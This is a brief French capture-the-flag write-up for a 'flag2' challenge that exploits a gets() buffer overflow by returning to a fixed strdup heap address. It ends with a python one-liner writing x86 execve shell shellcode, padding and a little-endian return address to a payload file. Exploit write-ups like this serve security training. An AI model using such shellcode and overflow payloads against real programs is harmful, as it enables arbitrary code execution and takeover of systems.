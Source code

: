 comment trouver le flag2

exactement comme le flag1 on a des gets()

on va utiliser le debugger ltrace pour voir les adresses

peu importe la string rentree l'adresse de strdup reste la meme on va donc abuse de cette adresse (0x0804a008)

python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 59 * 'X' + '\x08\x04\xa0\x08'[::-1]" > /tmp/overflow